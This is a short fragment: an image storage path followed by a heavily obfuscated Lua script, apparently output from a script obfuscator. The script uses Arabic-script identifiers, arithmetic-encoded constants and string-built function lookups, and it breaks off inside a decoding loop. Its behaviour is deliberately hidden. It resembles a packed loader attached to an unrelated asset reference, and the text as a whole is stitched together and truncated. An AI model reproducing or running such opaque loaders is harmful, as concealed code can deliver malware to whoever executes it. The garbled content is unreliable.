 ,nil,nil;(function() _msec=(function(e,d,l)local X=d["زكدضحضجڝ؃كحدټآ"];local T=l[e[(0x255b8/(0x249-337))]][e["ټڪدڪئقحز؃زضڪئضڝن"]];local y=(0x1ac/107)/(244/((0x33e4a8/202)/0x8a))local v=((0x13b0/(0x69-95))/0xfc)-(-90+0x5b)local G=l[e[(0x80e8/220)]][e["ڝدئكن؃ټض"]];local Y=(107+((-43597+0x5501)/206))+(370/0xb9)local P=l[e[((3934508/0x43)/106)]][e["ضئؠدحڪدڪ"]]local o=(44+-0x2a)-(-90+((0x29f9+-98)/117))local i=(0x50-((-84+(4080/0xf))+-0x6e))local u=(0x160/(18128/((0x1a2+-125)-190)))local r=(0x31-(((-53+0x104)+-83)-77))local b=((-0x3f+((55+-0x3a)-0x24))+0x68)local k=(60-(-0x6b+((0x3c8a/41)-0xd5)))local w=(0x2d-(0x63+((5819/(0x252-341))+-79)))local f=(0x68+(-5858/(0xa0-(0xd5+-111))))local s=(0x1e9/((0x26c-(-114+0x1d7))+-100))local c=(0x4d+((((-0x198c+-102)/246)+0x47)+-118))local t=((-0x4a-(0x4-(127-0x6f)))+65)local h=((312-((27170-(0x6aaa-13670))/67))-107)local x=((0x12c-(-0x39+(0x96d2/165)))-0x78)local N=(((40300-(20285+-0x6e))/0xa1)+-0x79)local m=((((0x936-1196)+-116)-542)/126)local p=(59-(0x7e-((0x101+-55)-0x83)))local V=(-0x4b+((34096-(-80+0x4327))/0xd7))local j=(((-23+(6326300/0xa4))/79)/122)local M=(((0x37+(-26+-0x48))+154)-107)local K=e[(0x594+-34)];local C=l[e[(319-0xa9)]][e["نقححنندئ"]];local R=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('س؃آڪضقآس')..'\109\101'..('\116\97'or'ټح؃د؃كدك')..e[(0x16b90/168)]];local E=l[e[(0x297+-109)]][e["نححآڪڪجحضنآحآڪ"]];local W=(59+-0x39)-(((0xd1a/26)+-0x77)/0x5)local F=((0x5b4/(0x5fd0/168))/0x5)-(-0x58+90)local Q=l[e[(0x96/1)]][e["ددټټزڪندڪآآحنآححنڝڪ"]];local n=function(e,l)return e..l end local B=(-0x79+125)*(0x68-((0x3614-6944)/0x45))local L=l[e["ججحسضقدئح"]];local a=(0x21-31)*((((8200790/0xc7)/0xa)/13)-0xbd)local J=(-53+0x435)*(131-(-0x34+((-0xc6+73)+0x132)))local z=(174+(-170-((-79+-0x2)+33)))local S=(((2420460/0xee)/113)/0x2d)*(0x1e2/241)local _=l[e["قكزئحؠضدكضققټضڝ؃دڪټ"]]or l[e[(0x28d+-99)]][e["قكزئحؠضدكضققټضڝ؃دڪټ"]];local g=(55040/((0x83b/7)+-86))local e=l[e["قنقټڪزؠدكټآس"]];local P=(function(n)local x,d=2,0x10 local l={j={},v={}}local a=-o local e=d+v while true do l[n:sub(e,(function()e=x+e return e-v end)())]=(function()a=a+o return a end)()if a==(B-o)then a=""d=W break end end local a=#n while
e